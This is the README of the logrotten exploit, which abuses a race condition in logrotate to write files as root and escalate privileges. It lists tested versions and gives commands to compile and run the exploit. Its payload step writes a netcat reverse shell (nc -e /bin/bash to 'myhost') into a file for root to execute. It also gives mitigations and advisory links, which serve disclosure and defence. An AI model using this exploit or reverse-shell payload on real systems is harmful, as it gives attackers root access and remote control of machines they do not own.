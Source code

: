 # Winning a race condition in logrotate to elevate privileges

![Logrotten Logo](/logrotten.png)

## Brief description
  - logrotate is prone to a race condition after renaming the logfile.
  - If logrotate is executed as root, with option that creates a 
    file ( like create, copy, compress, etc.) and the user is in control 
    of the logfile path, it is possible to abuse a race-condition to write 
    files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
 
## Precondition for privilege escalation
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - Any option that creates files is set in the logrotate configuration

## Tested version
  - Debian GNU/Linux 11 (bullseye)
  - Debian GNU/Linux 9.5 (stretch)
  - Amazon Linux 2 AMI (HVM)
  - Ubuntu 18.04.1
  - logrotate 3.8.6
  - logrotate 3.11.0
  - logrotate 3.15.0
  - logrotate 3.18.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; then (/bin/nc -e /bin/bash myhost 3333 &); fi" > payloadfile
```

## Run exploit 

If "create"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile /tmp/log/pwnme.log
```

If "compress"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```


## Known Problems
  - It was hard to win the race inside a docker container or on a lvm2-volume. This version of logrotten improves the reliability.

## Mitigation
  - make sure that logpath is owned by root
  - use option "su" in logrotate.cfg
  - use selinux or apparmor

## Author
  - Wolfgang Hotwagner

## References
  - https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges
  - https://github.com/whotwagner/logrotten
  - https://www.ait.ac.at/themen/cyber-security/ait-sa-20190930-01/
  - https://tech.feedyourhead.at/content/privilege-escalation-in-groonga-httpd

